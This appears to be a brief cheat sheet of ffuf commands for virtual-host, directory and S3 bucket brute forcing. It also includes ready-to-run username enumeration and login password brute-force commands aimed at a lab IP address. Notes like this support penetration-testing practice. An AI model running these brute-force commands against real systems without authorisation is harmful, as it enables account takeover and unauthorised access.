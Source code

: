FFuf bruteforces subdomains, directories, etc. 

`ffuf -w <wordlist> -u http://<IP> -H "HOST: FUZZ.<FQDN>" -fs 612` - VHost brute
`ffuf -w <wordlist> -u http://<IP>/FUZZ` - Dir brute
`ffuf -w <wordlist> -u http://FUZZ.s3.amazonaws.com` - S3 Bucket brute
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.221.107/customers/signup -mr "username already exists"` - Example username enumeration brute

`ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.221.107/customers/login -fc 200` - Example login brute

Install with apt on Kali.

